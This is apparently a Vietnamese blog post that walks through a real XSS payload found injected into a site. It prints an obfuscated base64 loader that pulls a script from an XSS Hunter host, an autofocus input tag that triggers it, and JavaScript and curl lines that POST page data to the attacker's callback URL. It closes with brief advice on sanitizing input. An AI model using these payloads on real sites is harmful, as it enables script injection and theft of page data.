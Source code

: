 ```yaml
---
title: (Vi) XSS attack sample
description: XSS attack sample
author: lk
tags: security
keywords: security
---
```


Disclaimer: Kỹ thuật này có thể đã lạc hậu tại thời điểm bài  này đuợc viết ;). Enjoy your day lah ^^.

**XSS attack là kỹ thuật tấn công khá phổ biến bên cạnh SQL injection. Hãy cùng xem thử một ví dụ mà attacker inject thành công một đọan mã độc vào hệ thống nhé!**


Đầu tiên, hãy chạy đoạn thử js này trong js console

```js
> atob('dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vZDB4NS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7')

> 'var a=document.createElement("script");a.src="https://d0x5.xss.ht";document.body.appendChild(a);'
```
một vài browser hiện đại thì đã chặn việc chạy các đoạn mã độc như trên


```
> # thử eval đoạn mã độc phía trên 
> eval(atob('dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vZDB4NS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7'))

> VM91:1 This document requires 'TrustedScript' assignment and no 'default' policy for 'TrustedScript' has been defined.
(anonymous) @ VM91:1
VM91:1 Uncaught EvalError: Refused to evaluate a string as JavaScript because 'unsafe-eval' is not an allowed source of script in the following Content Security Policy directive: "script-src chrome://resources 'self'".
```


Nếu bạn tò mò, tận mắt thấy, hãy nhúng đoạn code dưới này vào file html bất kỳ nào đó, mở ở chế độ **private mode**
```
<input
    onfocus=eval(atob(this.id))
    id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vZDB4NS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7
 autofocus>
```
link đến thư viện mà attacker xài, https://d0x5.xss.ht/ . Biết đâu bạn có thể modify một vài thông tin gửi về attacker = việc modify data 
gửi về cho attacker trong hàm bên dưới
```
    var http = new XMLHttpRequest();
    var url = "https://d0x5.xss.ht/page_callback";
    http.open("POST", url, true);
    http.setRequestHeader("Content-type", "text/plain");
    http.onreadystatechange = function() {
        if(http.readyState == 4 && http.status == 200) {

        }
    }
    http.send( JSON.stringify( page_data ) );
}
```
Hoặc callback luôn bằng curl
```
> curl -v -XPOST 'https://d0x5.xss.ht/page_callback' -d'{"page_html":"fuckyou", "uri":"fuck you again"}'
```

**Hãy luôn sanitize input data có kiểu string ;) và kỹ hơn nữa thì nên sanitize data load từ database khi render html page.**
Hoặc nên dùng các thư viện ORM có hỗ trợ việc sanitize/ cast các malicious input data này.

Nếu bạn còn tò mò, hãy vọc vạch thêm từ đây https://xsshunter.com/
